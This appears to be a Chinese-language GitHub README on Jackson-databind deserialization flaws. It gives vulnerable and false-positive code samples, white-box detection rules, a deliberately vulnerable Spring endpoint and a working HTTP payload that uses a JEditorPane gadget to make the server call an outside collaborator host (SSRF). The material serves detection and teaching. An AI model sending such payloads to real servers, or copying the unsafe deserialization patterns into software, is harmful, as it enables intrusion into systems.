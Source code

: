 # jackson-databind-POC

### 存在漏洞示例/误报示例

先看几个白盒检测存在漏洞的示例：
来源：https://github.com/find-sec-bugs/find-sec-bugs/blob/master/findsecbugs-samples-java/src/test/java/testcode/serial/UnsafeJacksonObjectDeserialization.java

```java
public class UnsafeJacksonObjectDeserialization {

    static class ABean {
        public int id;
        public Object obj;
    }

    static class AnotherBean {
        @JsonTypeInfo (use = JsonTypeInfo.Id.CLASS)
        public Object obj;
    }

    static class YetAnotherBean {
        @JsonTypeInfo (use = JsonTypeInfo.Id.MINIMAL_CLASS)
        public Object obj;
    }

    public void exampleOne(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        Object obj = mapper.readValue(JSON, ABean.class);
    }

    public void exampleTwo(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_CONCRETE_AND_ARRAYS);
        Object obj = mapper.readValue(JSON, ABean.class);
    }

    public void exampleThree(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        Object obj = mapper.readValue(JSON, AnotherBean.class);
    }

    public void exampleFour(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        Object obj = mapper.readValue(JSON, YetAnotherBean.class);
    }

}
```

从上面的四个例子可以总结出存在漏洞的jackson代码有这么几种情况：
- 1、exampleOne开启了DefaultTyping，且被序列化的类里有一个Object类型，可以进行对象注入；
- 2、exampleTwo开启了DefaultTyping，且接口类和抽象类都能被反序列化，更可以进行对象注入；
- 3、exampleThree虽然没有开启DefaultTyping，但是其被序列化的类被`JsonTypeInfo.Id.CLASS`修饰，可以通过`@class`进行对象注入；
- 4、exampleThree虽然没有开启DefaultTyping，但是其被序列化的类被`JsonTypeInfo.Id.MINIMAL_CLASS`修饰，可以通过`@c`进行对象注入；


再看一个jackson反序列化白盒检测的误报示例：
来源：https://github.com/find-sec-bugs/find-sec-bugs/blob/master/findsecbugs-samples-java/src/test/java/testcode/serial/JacksonSerialisationFalsePositive.java


```java
public class JacksonSerialisationFalsePositive implements Serializable {

    static class Bean {
        @JsonTypeInfo (use = JsonTypeInfo.Id.NAME)
        public Object obj;
    }

    public void exampleOne(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        Object obj = mapper.readValue(JSON, JacksonSerialisationFalsePositive.class);
    }

    public void exampleTwo(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        Object obj = mapper.readValue(JSON, Bean.class);
    }
}
```

说明：
- 1、exampleOne中没有开启DefaultTyping，且其待反序列化的类没有使用`JsonTypeInfo.Id.CLASS/MININAL_CLASS`修饰，所以无法进行对象注入；
- 2、exampleTwo中没有开启DefaultTyping，且其待反序列化的类没有使用`JsonTypeInfo.Id.CLASS/MININAL_CLASS`修饰，所以无法进行对象注入；


### jackson反序列化白盒检测
#### 第一个特征是关于 EnableDefaultTyping 的，注意他的多个重载方法，共有4个：
```java
ObjectMapper enableDefaultTyping()
ObjectMapper enableDefaultTyping(DefaultTyping dti)
ObjectMapper enableDefaultTyping(DefaultTyping applicability, JsonTypeInfo.As includeAs)
ObjectMapper enableDefaultTypingAsProperty(DefaultTyping applicability, String propertyName)
```
只要匹配到，就算命中了条件A。

#### 第二个特征是在 readValue 时候，指定的类本身是Object或者里面一定要包含Object类型字段或者Object类型的setter。
```java
public <T> T readValue(String content, JavaType valueType)
public <T> T readValue(Reader src, Class<T> valueType)
public <T> T readValue(Reader src, TypeReference valueTypeRef)
public <T> T readValue(Reader src, JavaType valueType)
```
所以只要匹配到这个，就需要对第二个参数进行解析，确认这个Model是否是可以被攻击的Model。如果包含了Object或者本身就是个Object，就认为命中了条件B。


#### 第三个特征是被反序列的类里面，有被 JsonTypeInfo 注解过的类，而且里面的内容是 `JsonTypeInfo.Id.CLASS` 或 `JsonTypeInfo.Id.MINIMAL_CLASS` 。记做条件C。

最终条件就是  (A&&B) || C。


下面给出一个C的示例：

```java
public class Jackson {

    static class AnotherBean {
        @JsonTypeInfo (use = JsonTypeInfo.Id.CLASS)
        public Object obj;
    }

    @RequestMapping(value = "/deserialize3", method = {RequestMethod.POST})
    @ResponseBody
    public static String deserialize3(@RequestBody String params) throws IOException {
        System.out.println(params);
        try {
            ObjectMapper objectMapper = new ObjectMapper();
            Object obj = objectMapper.readValue(params, AnotherBean.class);
            return obj.toString();
        }  catch (Exception e){
            e.printStackTrace();
            return e.toString();
        }
    }

```
相应的payload为：
```http
POST /jackson/deserialize3 HTTP/1.1
Host: cqq.com:8080
Connection: close
Cookie: JSESSIONID=C48313A5CE14AE7A1C15696C03AE0893
Content-Type: application/json
Content-Length: 127

{"obj":{"@class":"javax.swing.JEditorPane","page":"http://ivh6gf9nkrbys3l03uppuzvv9mfg35.burpcollaborator.net:80/?a=1&b=2222"}}
```


### Demo
下面演示从HTTP请求到Spring的方法，然后readValue，最后触发gadget的方法。这里是一个SSRF的例子。
![](jackson-JsonTypeInfo_id_class-poc.gif)


### 参考
- https://github.com/JoyChou93/java-sec-code
- https://www.leadroyal.cn/?p=594
- https://www.leadroyal.cn/?p=630
- [Jackson反序列化漏洞简介（四）： 防御和检测方式【系列完结】](https://www.leadroyal.cn/?p=633)
